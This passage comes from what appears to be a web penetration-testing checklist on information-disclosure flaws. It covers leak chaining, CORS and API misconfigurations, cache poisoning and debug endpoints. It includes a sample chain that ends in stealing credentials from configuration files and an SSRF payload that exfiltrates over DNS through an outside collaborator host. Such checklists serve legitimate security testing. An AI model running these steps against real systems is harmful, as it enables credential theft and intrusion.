     - **Memory analysis**
      - Check browser memory and local storage
      - Inspect JavaScript variables in browser console
      - Look for data cached in DOM
  
  - **Chaining information leaks**
    
    - **Combining multiple disclosures**
      - Use version information to exploit known CVEs
      - Leverage exposed usernames for further attacks
      - Combine path discovery with access control bypass
      - Example attack chain:
        ```
        1. Discover server version from HTTP headers
        2. Find known vulnerability for the version
        3. Use path disclosure to locate configuration files
        4. Extract credentials from config files
        5. Access admin interface with stolen credentials
        ```
    
    - **Cross-site leaks**
      - Exploit browser features to extract cross-origin data
      - Use timing attacks to infer information
      - Extract data via error messages
    
    - **API misconfigurations**
      - Test for over-permissive CORS settings
      - Check for verbose API error messages
      - Probe for debug endpoints
        - Example: `/api/debug/users`
  
  - **Out-of-band information disclosure**
    
    - **DNS and HTTP interactions**
      - Use Server-Side Request Forgery (SSRF) to probe internal networks
      - Force DNS lookups to extract data
      - Example DNS exfiltration payload:
        ```
        https://example.com/api?url=http://internal-data.burpcollaborator.net
        ```
    
    - **Cache poisoning**
      - Use web cache poisoning to expose internal data
      - Target caching mechanisms to retrieve sensitive information
    
    - **Cross-protocol exploitation**
      - Use HTTP to interact with non-HTTP services
      - Extract information through protocol conversion errors

- **Exploiting specific information disclosure vulnerabilities**
  
  - **Debug endpoints and features**
    
    - **Development features**
      - Test for debug modes and endpoints
        - Example paths: `/debug`, `/dev`, `/test`, `/admin/debug`
      - Look for debugging parameters
        - Example: `?debug=true`, `?trace=1`, `?profile=1`
      - Check for developer tools left enabled
        - Example: Spring Boot Actuator endpoints (`/actuator/health`, `/actuator/env`)
    